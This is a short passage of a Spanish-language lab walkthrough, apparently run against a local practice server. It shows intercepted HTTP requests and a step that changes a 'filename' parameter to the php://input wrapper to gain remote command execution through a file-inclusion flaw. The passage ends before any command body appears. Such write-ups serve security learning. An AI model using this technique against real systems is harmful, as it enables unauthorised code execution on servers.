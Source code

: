 ```URL
view-source:http://localhost/?filename=prueba
```

Acción 3: enviamos al repeat la petición interceptada

```xml
GET /?filename=prueba HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: none

Sec-Fetch-User: ?1

Priority: u=4
```

Acción 4: modificamos parámetro GET para usar wrapper que nos permita ejecutar comandos en el sistema (RCE)

```xml
POST /?filename=php://input HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

```